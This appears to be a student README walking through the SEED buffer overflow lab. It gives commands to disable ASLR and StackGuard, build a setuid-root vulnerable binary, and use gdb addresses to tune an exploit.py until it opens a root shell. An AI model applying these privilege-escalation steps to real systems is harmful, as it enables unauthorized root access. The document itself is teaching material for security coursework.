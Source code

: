 # Buffer Overflow Lab 

Log into your VM through PuTTY

Disable the Address Space Randomization feature 

``sudo sysctl -w kernel.randomize_va_space=0``

Configure /bin/sh

``sudo ln -sf /bin/zsh /bin/sh``

Compile the shellcode

``make``

*This command runs a set of commands to create binaries*


Move to the code folder

``cd /home/seed/Buffer_Overflow_Setuid_Labsetup/code``


Turn off StackGuard 

``gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c``
``sudo chown root stack``
``sudo chmod 4755 stack``


Create badfile

``touch badfile``


Debug stack.c

``gdb stack-L1-dbg``

*This opens a debug terminal*


Inside the terminal

- `b bof` (Sets a breakpoint at bof)
- `run` (Starts the execution of the program)
- `next` (Moves on from the first breakpoint)
- `p $ebp` (Gets the ebp value, SAVE THIS)
- `p &buffer` (Gets the buffer address, SAVE THIS) 
- ctrl+c (Leaves the debug terminal)


Edit the exploit.py file

`nano exploit.py`


Copy/Paste the 32-bit shellcode into the shellcode variable

Change the start number to something between 0 and the max range (EX: start = 420)

Change the ret to the buffer address plus the start value

Change the offset to (ebp address - buffer address) + L (4 for 32-bit)

Save and exit

Run exploit.py

``./exploit.py``

Launch attack

``./stack-L1``

*The output should look like this, resulting in a root shell!*
<img width="480" alt="image" src="https://user-images.githubusercontent.com/71207177/205788807-ecb511d3-01fa-4ee8-92fb-788faf609172.png">

